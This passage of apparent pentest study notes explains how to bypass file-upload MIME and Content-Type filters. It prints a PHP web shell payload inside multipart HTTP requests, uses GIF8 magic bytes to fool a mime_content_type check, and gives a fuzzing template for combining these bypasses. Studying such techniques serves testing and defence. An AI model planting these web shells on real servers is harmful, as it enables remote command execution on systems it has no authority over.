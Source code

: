 			<?php system($_REQUEST['cmd']); ?>
			------WebKitFormBoundarywRdo2lC1tHQrJPoV--
			```
	- `MIME-Type` 
		- `Multipurpose Internet Mail Extensions (MIME)`, internet standard that determines the type of a file through its general format and bytes structure.
		- By inspecting the first few bytes of the file's content, which contain the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).
			``` bash
			$ echo "this is a text file" > text.jpg && file text.jpg 
			text.jpg: ASCII text
			$ echo "GIF8" > text.jpg && file text.jpg
			text.jpg: GIF image data
			```
		- Example shows how a PHP web application can test the MIME type of an uploaded file:
			``` PHP
			$type = mime_content_type($_FILES['uploadFile']['tmp_name']);
			if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) { echo "Only images are allowed"; die(); }
			```
		- Snippet from the HTTP request before
			``` TXT
			------WebKitFormBoundarywRdo2lC1tHQrJPoV
			Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
			Content-Type: image/png
			
			<?php system($_REQUEST['cmd']); ?>
			------WebKitFormBoundarywRdo2lC1tHQrJPoV--
			```
		- After
			``` TXT
			------WebKitFormBoundarywRdo2lC1tHQrJPoV
			Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
			Content-Type: image/jpg
			
			GIF8
			<?php system($_REQUEST['cmd']); ?>
			------WebKitFormBoundarywRdo2lC1tHQrJPoV--
			```

>[!NOTE]
> Combine all of the attacks `Allowed MIME type with a disallowed Content-Type`, an `Allowed MIME/Content-Type with a disallowed extension`, or a `Disallowed MIME/Content-Type with an allowed extension`, and so on. EX:

``` HTTP
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywRdo2lC1tHQrJPoV

------WebKitFormBoundarywRdo2lC1tHQrJPoV
Content-Disposition: form-data; name="uploadFile"; filename="FUZZ1"
Content-Type: FUZZ2

GIF8 or FUZZ3
<?php system($_REQUEST['cmd']); ?>
------WebKitFormBoundarywRdo2lC1tHQrJPoV--
```
---
# Various File Uploads Techniques
- If the upload forms have secure filters that may not be exploitable, which only allows us to upload specific file types.
- Certain file types, like `SVG`, `HTML`, `XML`, and even some image and document files, may allow us to upload malicious versions of these files.